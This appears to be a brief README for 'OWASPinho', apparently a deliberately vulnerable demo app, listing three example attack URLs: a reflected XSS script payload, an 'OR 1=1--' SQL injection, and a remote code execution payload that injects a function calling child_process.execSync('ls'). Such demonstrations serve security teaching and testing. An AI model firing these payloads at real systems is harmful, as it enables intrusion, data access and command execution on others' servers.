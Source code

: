 # OWASPinho


## XSS
```
/?useriInput=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
## SQL Injection
```
/users?username=OR+1=1--&access-token=ASDASD
```
## RCE
```
/users/has-access?userId=1&resourceId=42&userAccessCheck=function(userId,%20resourceId)%20{%20return%20require('child_process').execSync('ls').toString();%20}
```